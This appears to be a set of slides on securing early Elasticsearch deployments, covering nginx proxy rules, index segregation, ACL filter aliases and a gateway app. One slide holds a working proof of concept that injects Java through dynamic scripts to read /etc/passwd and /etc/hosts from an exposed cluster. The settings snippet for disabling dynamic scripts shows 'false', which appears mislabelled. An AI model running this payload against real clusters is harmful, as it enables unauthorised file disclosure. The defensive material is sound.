   ## Securing Elasticsearch


  ### Elasticsearch trusts you

  * There is no concept of a user
  * Out the box, systems that have access to port 9200 can basically do whatever they want
  * Do not allow direct access to port 9200


  ### Scripting

  * Elasticsearch provides robust scripting support
  * These scripts are run in a sandbox *as of 1.3.0*
  * [Remote code execution is possible](http://blog.liftsecurity.io/2013/11/30/elasticsearch-command-execution-using-script)


  ### How to read a file system using dynamic scripts with Python

  ```python
  read_file = (filename) ->
    """
    import java.io.File;
    import java.util.Scanner;
    new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
    """

  # This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
  $ ->
    payload = {
      "size": 1,
      "query": {
        "filtered": {
          "query": {
            "match_all": {
            }
          }
        }
      },
      "script_fields": {}
    }

    for filename in ["/etc/hosts", "/etc/passwd"]
      payload["script_fields"][filename] = {"script": read_file(filename)}

    $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
      console.log(data)
      for hit in data["hits"]["hits"]
        for filename, contents of hit["fields"]
          document.write("<h2>#{filename}</h2>")
          for content in contents
            document.write("<pre>" + content + "</pre>")
          document.write("<hr>")
  ```


### Disabling dynamic scripts on older versions

```yaml
script.disable_dynamic: false
```


### Use preloaded scripts instead

```bash
$ cat config/scripts/scoring/recency_boost.groovy
(0.08 / ((3.16*10.power(-11)) * (now - doc['timestamp'].date.getMillis()).abs() + 0.05)) + 1.0
```

```json
{
  "script": "scoring_recency_boost",
  "params": {
    "now": 1386176910000
  }
}
 ```


### Segregate different tenants/users into separate indexes

* This allows you to create some high-level URL rules to eliminate cross-polination
* Some apis like multi-search, multi-get and bulk allow take indexes as URL parameters or in the request body
* Lock this down with `allow_explicit_index: false`


### Sample nginx proxy rules

```nginx
#
# Nginx proxy for Elasticsearch + Kibana
#
# In this setup, we are password protecting the saving of dashboards. You may
# wish to extend the password protection to all paths.
#
# Even though these paths are being called as the result of an ajax request, the
# browser will prompt for a username/password on the first request
#
# If you use this, you'll want to point config.js at http://FQDN:80/ instead of
# http://FQDN:9200
#
server {
  listen                *:80 ;

  server_name           kibana.myhost.org;
  access_log            /var/log/nginx/kibana.myhost.org.access.log;

  location / {
    root  /usr/share/kibana3;
    index  index.html  index.htm;
  }

  location ~ ^/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/_nodes$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_search$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_mapping {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }

  # Password protected end points
  location ~ ^/kibana-int/dashboard/.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
  location ~ ^/kibana-int/temp.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
}
```


### Include ACLs in document body

```json
{
  "title": "Elasticsearch in Action",
  "price": 34.99,
  "visible_to_groups": [
    "spantree",
    "strangeloop"
  ],
  "visible_to_users": [
    "george_smith",
    "jane_jones"
  ]
}
```


### Use filter aliases to enforce ACLs

```json
curl -XPOST 'http://localhost:9200/_aliases' -d '{
  "actions": [
    {
      "add": {
        "index": "books",
        "alias": "books_visible_to_group_spantree",
        "filter": {
          "term": { "visible_to_group": "spantree" }
        }
      }
    }
  ]
}'
```


### For more complex requirements, consider a middle tier gateway app

* When you need things like field-level access policies, consider writing a gateway app
* Prefer to use asynchronous, non-blocking frameworks like [Node.js](http://nodejs.org/), [Ratpack](http://www.ratpack.io/) or [Frank](https://github.com/panesofglass/frank).


### Pseudocode for a gateway app

```coffee
http.createServer (req, res) ->
  # Authenticate and get user context
  userContext = authenticateAndGetUserContext(req)
  if userContext
    http.request "#{esRoot}/{req.path}", (esResponse, json) ->
      if not userContext.shouldPriceBeVisible
        delete json.price
      res.writeHead esResponse.head
      res.write json
      res.end()
  else
    res.writeHead 401, 'Unauthorized access'
```


### (Completely speculative) future security features

* Dynamic scripts running in a sandbox?
* Pluggable authentication (via CAS, JAAS, etc)?
* Document-level security?